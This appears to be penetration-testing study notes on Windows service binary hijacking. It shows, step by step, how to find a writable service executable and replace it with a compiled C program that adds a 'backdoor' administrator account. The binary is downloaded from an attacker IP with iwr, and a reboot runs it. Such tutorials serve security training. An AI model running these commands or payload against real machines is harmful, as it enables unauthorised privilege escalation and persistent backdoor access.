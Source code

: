 # Service Binary Hijacking

Each Windows service has an associated binary file that is executed on startup. If these binary files aren't properly secured, a user can replace it with malicious code.

For example, a user installs an application and makes it a Windows service but accidentally allows Read Write (RW) permissions for all users. We can replace this application with a malicious binary, and restart the service, or restart the system system and the malicious binary will execute.

***

## Enumerating Services

To get a list of installed Windows services we can choose a variety of different tools. **(Get-Service, Get-Ciminstance, GUI services.msc)**.&#x20;

### Get-Ciminstance

_<mark style="color:red;">**NOTE:**</mark>_ Get-CimInstance and Get-Service will return "Permission denied" if using WinRM. A RDP session will fix this on a non-administrative user.

```
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

Name                      State   PathName
----                      -----   --------
Apache2.4                 Running "C:\xampp\apache\bin\httpd.exe" -k runservice
Appinfo                   Running C:\Windows\system32\svchost.exe -k netsvcs -p
AppXSvc                   Running C:\Windows\system32\svchost.exe -k wsappx -p
AudioEndpointBuilder      Running C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted -p
Audiosrv                  Running C:\Windows\System32\svchost.exe -k LocalServiceNetworkRestricted -p
BFE                       Running C:\Windows\system32\svchost.exe -k LocalServiceNoNetworkFirewall -p
BITS                      Running C:\Windows\System32\svchost.exe -k netsvcs -p
BrokerInfrastructure      Running C:\Windows\system32\svchost.exe -k DcomLaunch -p
...
mysql                     Running C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
...
```

#### What we're looking for

We're looking for services that are installed in locations other than **C:\Windows\System32.** These applications are **user installed.**  For example**: C:\xampp\\.**

## Enumerating Permissions

Once we've enumerated the installed service and found one of interest, we can view the permissions.  We can use tools like: _**icacls**_ Windows utility or the PowerShell Cmdlet _**Get-ACL**_

| MASK | PERMISSIONS             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

### **icacls - Check Permissions of service**

```
PS C:\Users\dave> icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files
```

**Here we see the "Users" group has Full access to modify the binary.**&#x20;



## Create Malicious Binary

This can be a reverse shell, or a simpler payload. For example: creating a new user.

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user backdoor password123! /add");
  i = system ("net localgroup administrators backdoor /add");
  
  return 0;
}
```

```c
kali@kali:~$ x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

## Transfer Malicious Binary - iwr

Our malicious binary creates a new user and adds it to Adminstrators group

```
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
```

## Move Malicious Binary to Service - Move

```
# Move target binary out of directoy.

PS> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

# Move malicious binary & rename to original.

PS> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```

## Restart Service

If we have permissions on the service we can restart the service with `Restart-Service`, otherwise see below.

```
Restart-Service -name "ServiceName With Malicious exe"
```

## Restart

We'll need to restart the computer since most services are protected by Admistrators.&#x20;

```
PS C:\Users\dave> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

We're able to restart the system.

_**Shutdown Computer:**_

```
PS C:\Users\dave> shutdown /r /t 0 
```

## Verify Exploit

```
PS> Get-LocalGroupMember administrators

User        CLIENTWK220\Admin            Local
User        CLIENTWK220\backdoor         Local
```

